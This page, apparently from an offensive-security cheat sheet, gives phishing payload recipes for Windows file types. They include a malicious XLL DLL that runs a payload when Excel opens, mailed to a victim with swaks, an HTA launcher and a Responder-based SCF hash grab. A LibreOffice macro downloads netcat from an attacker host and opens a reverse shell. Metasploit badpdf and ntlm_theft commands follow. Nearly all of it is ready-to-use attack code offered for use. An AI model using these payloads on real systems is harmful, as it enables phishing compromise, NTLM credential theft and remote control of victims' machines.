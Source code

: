 ```yaml
---
title: "Phishing"
date: 2024-6-26
tags: ["Phishing", "Social Engineering", "Responder", "Phishing Campaigns", "Email", "Xll", "Excel", "Hta", "Shortcut", "Windows", "Odt", "Libre", "Vba", "Ntlm_Theft", "Pdf", "Ntlm"]
---
```


{{< tab set1 tab1 >}}lnk{{< /tab >}}
{{< tab set1 tab2 >}}xll{{< /tab >}}
{{< tab set1 tab3 >}}hta{{< /tab >}}
{{< tab set1 tab4 >}}scf{{< /tab >}}
{{< tab set1 tab5 >}}odt{{< /tab >}}
{{< tab set1 tab6 >}}pdf{{< /tab >}}
{{< tab set1 tab7 >}}others{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$obj = New-Object -ComObject WScript.Shell
```

```console
$link = $obj.CreateShortcut("C:\ProgramData\Calculator.lnk")
```

```console
$link.TargetPath = "C:\ProgramData\rev.exe"
```

```console
$link.Save()
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### shell.c

```console
#include <windows.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void); 

void __cdecl xlAutoOpen() {
    // Triggers when Excel opens
    WinExec("<POWERSHELL_3_BASE64>", 1); // Replace your payload
}

BOOL APIENTRY DllMain( HMODULE hModule,
                    DWORD  ul_reason_for_call,
                    LPVOID lpReserved
                    )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

#### 1. Compile shell.c in Linux

```console
x86_64-w64-mingw32-gcc -fPIC -shared -o shell.xll shell.c -luser32
```

#### 2. Send email with the malicious xll file

```console
swaks --to '<VICTIM>@<DOMAIN>' --from 'attacker@<DOMAIN>' --server '<DOMAIN>' --header "This is not a malicious file" --body "This is not a malicious file" --attach '@shell.xll'
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

#### 1. Start a Local SMB Server

```console
# In our local Linux machine
impacket-smbserver -smb2support share .
```

#### 2. Create a Malicious hta File in local Linux SMB share

```console
<html>
    <head>
        <HTA:APPLICATION ID="shell">
        <script language="javascript">
            var c = "<POWERSHELL_3_BASE64>";  
            new ActiveXObject('WScript.Shell').Run(c, 0, true); 
        </script>
    </head>
    <body>
        <script>self.close();</script>
    </body>
</html>
```

#### 3. Create a shortcut file in target Windows

```console
# In target Windows machine (powershell)
$url = "file://<LOCAL_IP>/share/shell.hta"
```

```console
$shortcutPath = "C:\ProgramData\shell.url"
```

```console
$shortcutContent = "[InternetShortcut]`r`nURL=$url"
```

```console
Set-Content -Path $shortcutPath -Value $shortcutContent
```

<small>*Ref: [revshells.com](https://www.revshells.com/)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab4 >}}

### If any interaction from target to smb share

#### 1. Start Responder

```console
# In our local Linux machine
sudo responder -I tun0
```

#### 2. Create a malicious shortcut

```console
[Shell]
Command=2

IconFile=\\<LOCAL_IP>\icon
```

#### 3. Upload the malicious shortcut

```console
# In our local Linux machine
smbclient -N \\\\<TARGET>\\share\\
```

```console
mput evil.scf
```

{{< /tabcontent >}}
{{< tabcontent set1 tab5 >}}

```console
+--------------------------------------------------------+
| 1. "Tools" > "Macros" > "Organize Macros" > "Basic..." |
| 2. "Untitled 1" > "Standard" > "New"                   |
| 3. "Paste the code below"                              |
+--------------------------------------------------------+
```

<br>

```console
Sub OnLoad
    shell("cmd /c certutil -urlcache -split -f http://<LOCAL_IP>/nc64.exe C:\programdata\nc64.exe && C:\programdata\nc64.exe -e cmd <LOCAL_IP> <LOCAL_PORT>")
End Sub
```

<br>

```console
+-----------------------------------------------------------+
| 4. "Tools" > "Organize Macros" > "Basic..." > "Assign..." |
| 5. "Events" > "Open Document" > "OK"                      |
| 6. "SAVE"                                                 |
+-----------------------------------------------------------+
```

{{< /tabcontent >}}
{{< tabcontent set1 tab6 >}}

```console
msfconsole -q
```

```console
search badpdf
```

```console
set filename evil.pdf
```

```console
set lhost <LOCAL_IP>
```

```console
exploit
```

{{< /tabcontent >}}
{{< tabcontent set1 tab7 >}}

```console
python3 ntlm_theft.py -g all -s <LOCAL_IP> -f test
```

<small>*Ref: [ntlm_theft](https://github.com/Greenwolf/ntlm_theft)*</small>

{{< /tabcontent >}}
